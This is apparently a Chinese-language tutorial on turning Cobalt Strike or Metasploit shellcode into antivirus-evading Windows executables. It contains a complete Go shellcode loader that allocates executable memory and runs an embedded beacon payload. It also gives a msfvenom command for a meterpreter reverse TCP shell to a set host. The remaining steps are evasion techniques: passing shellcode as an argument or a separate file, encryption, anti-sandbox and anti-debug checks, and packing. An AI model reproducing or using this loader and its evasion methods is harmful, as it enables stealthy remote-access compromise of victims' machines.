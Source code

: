 ## **基础模板**
生成 ：CS-有效载荷-Payload生成器-.c文件
.c文件中提取shellcode值，替换\为,0，将其放入go代码中的字节数组。

```
package main

import (
	"io/ioutil"
	"os"
	"syscall"
	"unsafe"
)

const (
	MEM_COMMIT             = 0x1000
	MEM_RESERVE            = 0x2000
	PAGE_EXECUTE_READWRITE = 0x40
)

var (
	kernel32      = syscall.MustLoadDLL("kernel32.dll")
	ntdll         = syscall.MustLoadDLL("ntdll.dll")
	VirtualAlloc  = kernel32.MustFindProc("VirtualAlloc")
	RtlCopyMemory = ntdll.MustFindProc("RtlCopyMemory")
	shellcode_buf = []byte{
		0xfc, 0x48, 0x83, 0xe4, 0xf0, 0xe8, 0xc8, 0x00, 0x00, 0x00, 0x41, 0x51, 0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 
...
0x2e, 0x32, 0x33, 0x36, 0x2e, 0x31, 0x31, 0x37, 0x00, 0x00, 0x01, 0x86, 0xa0,
	}
)

func checkErr(err error) {
	if err != nil {
		if err.Error() != "The operation completed successfully." {
			println(err.Error())
			os.Exit(1)
		}
	}
}

func main() {
	shellcode := shellcode_buf
	if len(os.Args) > 1 {
		shellcodeFileData, err := ioutil.ReadFile(os.Args[1])
		checkErr(err)
		shellcode = shellcodeFileData
	}

	addr, _, err := VirtualAlloc.Call(0, uintptr(len(shellcode)), MEM_COMMIT|MEM_RESERVE, PAGE_EXECUTE_READWRITE)
	if addr == 0 {
		checkErr(err)
	}
	_, _, err = RtlCopyMemory.Call(addr, (uintptr)(unsafe.Pointer(&shellcode[0])), uintptr(len(shellcode)))
	checkErr(err)
	syscall.Syscall(addr, 0, 0, 0, 0)
}
```


^
## **免杀方案**
分离拆分：
1、http请求获取  powershell使用过
2、参数获取 go使用
3、资源获取 go使用


^
**参数分离**
这里先使用参数分离（此时往往结合shellcode加密，aes等）
```
执行时：
生成 ：CS-有效载荷-Payload生成器-.c文件
.c文件中提取shellcode值作为shellcode。
3.exe  密钥 shellcodeC

或
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.20.128 LPORT=6688 -f hex 生成16进制数字
直接5.exe 16进制数字
```

^
**资源分离**
资源分离，文件读取
```
生成 ：CS-有效载荷-Payload生成器-raw .bin文件
4.exe 和 .bin文件放同一目录（一般）
运行
```

^
**防虚拟机，防沙箱，防调试**
代码检测，检测出直接退出程序。


^
**加壳、加混淆**
如：
使用Shielden软件一键加混淆，加防虚拟机，防沙箱，防调试。
使用UPX加压缩壳。
使用virboxprotector_trial_windows去除特征(c#的exe，不支持go的exe)。
使用ConfuserCLI等。